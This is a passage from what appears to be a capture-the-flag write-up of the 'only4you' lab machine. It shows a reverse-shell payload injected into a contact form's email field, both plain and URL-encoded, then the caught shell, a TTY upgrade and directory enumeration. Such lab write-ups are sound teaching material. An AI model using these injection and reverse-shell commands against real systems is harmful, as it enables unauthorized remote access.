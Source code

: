     
    name=0xdf&email=0xdf@only4you.htb; bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'&subject=test&message=test
    

That URL encodes (Ctrl-u in Burp) to:

    
    
    name=0xdf&email=0xdf%40only4you.htb%3b+bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.6/443+0>%261'&subject=test&message=test
    

On sending that, there’s a connection back at my listening `nc`:

    
    
    oxdf@hacky$ nc -lvnp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.210 44348
    bash: cannot set terminal process group (1005): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@only4you:~/only4you.htb$
    

I’ll upgrade my shell using the [typical
trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

    
    
    www-data@only4you:~/only4you.htb$ script /dev/null -c bash
    Script started, file is /dev/null
    www-data@only4you:~/only4you.htb$ ^Z
    [1]+  Stopped                 nc -lvnp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lvnp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@only4you:~/only4you.htb$
    

## Shell as john

### Enumeration

#### Filesystem

There’s not much else to find on the file system. Two users have home
directories, but I can’t enter either:

    
    
    www-data@only4you:/home$ ls
    dev  john
    www-data@only4you:/home$ cd dev/
    bash: cd: dev/: Permission denied
    www-data@only4you:/home$ cd john/
    bash: cd: john/: Permission denied
    
